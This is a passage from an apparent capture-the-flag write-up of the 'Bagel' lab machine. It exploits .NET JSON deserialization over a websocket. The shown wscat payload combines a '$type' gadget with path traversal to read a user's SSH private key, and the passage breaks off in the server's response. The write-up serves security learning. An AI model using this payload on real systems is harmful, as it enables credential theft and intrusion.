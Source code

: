 See [here](https://www.blackhat.com/docs/us-17/thursday/us-17-Munoz-Friday-The-13th-JSON-Attacks-wp.pdf) for further details.

By looking through all functions, one can quickly realize that the only one that matches the aforementioned syntax (i.e., `{ get; set; }`) is `RemoveOrder`. Furthermore, the ".NET type name when the type of the object being serialized" is `bagel_server.File` and the declared type is `bagel`.

Additionally, in `app.py`, one can read the default syntax expected by .NET. For instance, the same information that is reflected on page `http://bagel.htb/orders` can be queried direclty as follows via `wscat` on port 5000:

```
└─$ wscat -c ws://bagel.htb:5000
Connected (press CTRL+C to quit)
> {"ReadOrder":"orders.txt"}
< {
  "UserId": 0,                                                                                                      
  "Session": "Unauthorized",                                                                                        
  "Time": "10:39:30",                                                                                               
  "RemoveOrder": null,                                                                                              
  "WriteOrder": null,                                                                                               
  "ReadOrder": "order #1 address: NY. 99 Wall St., client name: P.Morgan, details: [20 chocko-bagels]\norder #2 address: Berlin. 339 Landsberger.A., client name: J.Smith, details: [50 bagels]\norder #3 address: Warsaw. 437 Radomska., client name: A.Kowalska, details: [93 bel-bagels] "                                                               
}   
>
```

Therefore, given that SSH password login is disabled, one can proceed to enumerate phil's `id_rsa` thanks to the following payload:

```
└─$ wscat -c ws://bagel.htb:5000
Connected (press CTRL+C to quit)
> { "RemoveOrder" : {"$type":"bagel_server.File, Bagel", "ReadFile":"../../../../../../home/phil/.ssh/id_rsa"}}
< {
  "UserId": 0,                                                                                                      
  "Session": "Unauthorized",                                                                                        
  "Time": "10:25:44",                                                                                               
  "RemoveOrder": {                                                                                                  
    "$type": "bagel_server.File, bagel",                                                                            
```